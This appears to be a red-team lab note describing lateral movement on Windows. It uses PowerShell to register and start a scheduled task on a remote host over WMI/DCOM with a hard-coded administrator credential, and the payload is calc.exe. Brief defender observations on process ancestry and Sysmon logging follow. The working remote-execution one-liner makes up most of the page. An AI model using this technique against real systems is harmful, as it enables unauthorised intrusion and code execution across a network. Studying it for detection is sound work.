

# WMI + NewScheduledTaskAction Lateral Movement

## Execution

On the victim system, let's run a simple loop to see when a new scheduled task gets added:

```csharp
$a=$null; while($a -eq $null) { $a=Get-ScheduledTask | Where-Object {$_.TaskName -eq "lateral"}; $a }
```

Now from the compromised victim system, let's execute code laterally:


```csharp
$connection = New-Cimsession -ComputerName "dc-mantvydas" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("administrator", (ConvertTo-SecureString -String "123456" -asplaintext -force)))) -ErrorAction Stop; register-scheduledTask -action (New-ScheduledTaskAction -execute "calc.exe" -cimSession $connection -WorkingDirectory "c:\windows\system32") -cimSession $connection -taskname "lateral"; start-scheduledtask -CimSession $connection -TaskName "lateral"
```


Graphic showing both of the above commands and also the process ancestry on the target system:


## Observations

As usual, services.exe spawning unusual binaries should raise a wary defender's suspicion. You may also want consider monitoring for new scheduled tasks that get created on your systems:





Sysmon config master version 64 from [https://github.com/SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config) does not log the calc.exe Process Creation event being spawned by the services.exe



